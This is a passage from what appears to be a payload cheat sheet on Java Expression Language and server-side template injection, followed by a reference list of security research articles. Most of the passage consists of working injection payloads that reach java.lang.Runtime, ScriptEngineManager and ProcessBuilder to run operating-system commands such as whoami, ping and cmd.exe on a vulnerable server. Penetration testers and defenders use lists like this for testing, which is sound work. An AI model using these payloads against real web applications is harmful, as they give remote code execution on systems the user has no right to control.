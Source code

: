 * Method using `java.lang.Runtime` #2
    ```java
    #{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
    #{session.getAttribute("rtc").setAccessible(true)}
    #{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}
    ```

* Method using `java.lang.Runtime` #3 - accessed with `invoke`
    ```java
    ${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('COMMAND_HERE')}
    ```

* Method using `java.lang.Runtime` #3 - accessed with `javax.script.ScriptEngineManager`
    ```java
    ${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}
    ```

* Method using `java.lang.ProcessBuilder`
    ```java
    ${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
    ${request.getAttribute("c").add("cmd.exe")}
    ${request.getAttribute("c").add("/k")}
    ${request.getAttribute("c").add("ping x.x.x.x")}
    ${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
    ${request.getAttribute("a")}
    ```


## References

- [Server Side Template Injection – on the example of Pebble - Michał Bentkowski - September 17, 2019](https://research.securitum.com/server-side-template-injection-on-the-example-of-pebble/)
- [Server-Side Template Injection: RCE For The Modern Web App - James Kettle (@albinowax) - December 10, 2015](https://gist.github.com/Yas3r/7006ec36ffb987cbfb98)
- [Server-Side Template Injection: RCE For The Modern Web App (PDF) - James Kettle (@albinowax) - August 8, 2015](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
- [Server-Side Template Injection: RCE For The Modern Web App (Video) - James Kettle (@albinowax) - December 28, 2015](https://www.youtube.com/watch?v=3cT0uE7Y87s)
- [VelocityServlet Expression Language injection - MagicBlue - November 15, 2017](https://magicbluech.github.io/2017/11/15/VelocityServlet-Expression-language-Injection/)
- [Bean Stalking: Growing Java beans into RCE - Alvaro Munoz - July 7, 2020](https://securitylab.github.com/research/bean-validation-RCE)
- [Bug Writeup: RCE via SSTI on Spring Boot Error Page with Akamai WAF Bypass - Peter M (@pmnh_) - December 4, 2022](https://h1pmnh.github.io/post/writeup_spring_el_waf_bypass/)
- [Expression Language Injection - OWASP - December 4, 2019](https://owasp.org/www-community/vulnerabilities/Expression_Language_Injection)
- [Expression Language injection - PortSwigger - January 27, 2019](https://portswigger.net/kb/issues/00100f20_expression-language-injection)
- [Leveraging the Spring Expression Language (SpEL) injection vulnerability (a.k.a The Magic SpEL) to get RCE - Xenofon Vassilakopoulos - November 18, 2021](https://xen0vas.github.io/Leveraging-the-SpEL-Injection-Vulnerability-to-get-RCE/)
- [RCE in Hubspot with EL injection in HubL - @fyoorer - December 7, 2018](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html)
- [Remote Code Execution with EL Injection Vulnerabilities - Asif Durani - January 29, 2019](https://www.exploit-db.com/docs/english/46303-remote-code-execution-with-el-injection-vulnerabilities.pdf)
